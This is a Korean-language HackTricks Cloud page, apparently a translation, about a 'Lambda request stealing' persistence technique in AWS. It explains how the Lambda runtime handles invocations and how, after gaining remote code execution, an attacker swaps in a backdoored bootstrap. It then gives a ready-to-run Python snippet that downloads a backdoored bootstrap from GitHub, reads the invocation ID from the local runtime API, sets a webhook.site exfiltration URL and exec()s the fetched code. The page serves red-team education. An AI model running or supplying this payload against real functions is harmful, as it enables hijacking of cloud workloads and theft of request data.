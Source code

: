 # AWS - 람다 요청 도용

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 제로부터 전문가까지 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 PDF로 HackTricks를 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [디스코드 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **해킹 요령을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소로 PR을 제출하세요.

</details>

## 람다 플로우

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**는 컨테이너 외부의 프로세스로, **init** 프로세스에 **호출**을 보냅니다.
2. init 프로세스는 몇 가지 흥미로운 엔드포인트를 노출하는 포트 **9001**에서 수신 대기합니다:
* **`/2018-06-01/runtime/invocation/next`** – 다음 호출 이벤트를 가져옵니다.
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 호출에 대한 핸들러 응답 반환
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 실행 오류 반환
3. **bootstrap.py**는 init 프로세스에서 호출을 받아 사용자 코드를 처리하기 위해 루프를 실행합니다 (**`/next`**).
4. 마지막으로, **bootstrap.py**는 응답을 init에게 보냅니다.

사용자 코드가 모듈로 로드되므로 사용자 코드에 의해 수행된 모든 코드 실행은 실제로 이 프로세스에서 발생합니다.

## 람다 요청 도용

이 공격의 목표는 사용자 코드가 취약한 요청을 처리하는 **`bootstrap.py`** 프로세스 내에서 악성 **`bootstrap.py`** 프로세스를 실행하도록 만드는 것입니다. 이렇게 하면 **악성 bootstrap** 프로세스가 요청을 처리하기 위해 init 프로세스와 **통신**을 시작하고 **합법적인** bootstrap은 악성 프로세스를 실행하는 동안 **갇혀** 있어 init 프로세스에 요청을 요청하지 않을 것입니다.

사용자 코드가 합법적인 **`bootstrap.py`** 프로세스에 의해 실행되고 있기 때문에 이 작업을 쉽게 수행할 수 있습니다. 따라서 공격자는 다음을 수행할 수 있습니다:

* 현재 호출의 가짜 결과를 init 프로세스에 **보냅니다**, 따라서 init은 bootstrap 프로세스가 더 많은 호출을 기다리고 있다고 생각합니다.
* 요청은 **`/${invoke-id}/response`**로 보내야 합니다.
* invoke-id는 합법적인 **`bootstrap.py`** 프로세스의 스택에서 [**inspect**](https://docs.python.org/3/library/inspect.html) 파이썬 모듈을 사용하여 얻을 수 있습니다 ([여기에서 제안된대로](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) 또는 **`/2018-06-01/runtime/invocation/next`**로 다시 요청하여 얻을 수 있습니다 ([여기에서 제안된대로](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* 다음 호출을 처리할 악성 **`boostrap.py`**를 실행합니다.
* 은밀성을 위해 람다 호출 매개변수를 공격자가 제어하는 C2로 보내고 그런 다음 요청을 처리할 수 있습니다.
* 이 공격에는 시스템 또는 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)에서 **`bootstrap.py`**의 원본 코드를 가져와서 악성 코드를 추가하고 현재 람다 호출에서 실행하는 것이 충분합니다.

### 공격 단계

1. **RCE** 취약점을 찾습니다.
2. **악의적인** **bootstrap**을 생성합니다 (예: [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **악의적인** **bootstrap**을 실행합니다.

이러한 작업을 쉽게 수행할 수 있습니다.
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
더 많은 정보는 [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)에서 확인하세요.

## 참고 자료

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)
